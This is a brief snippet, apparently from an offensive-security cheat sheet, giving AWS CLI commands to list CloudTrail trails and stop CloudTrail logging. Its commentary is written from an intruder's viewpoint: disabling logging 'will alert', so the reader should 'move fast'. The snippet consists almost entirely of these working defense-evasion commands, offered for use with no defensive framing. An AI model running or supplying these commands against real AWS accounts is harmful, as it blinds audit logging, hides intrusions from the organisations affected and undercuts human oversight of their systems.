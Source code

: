 Tread lightly. Disabling CloudTrail is probably the most watched for event in enterpise AWS

List Trails

`aws cloudtrail list-trails --region us-east-1`

Stop logging CloudTrail calls (if an org is even half-competent this will alert. Move fast.)

`aws cloudtrail stop-logging --name <trail name or arn> --region us-east-1`

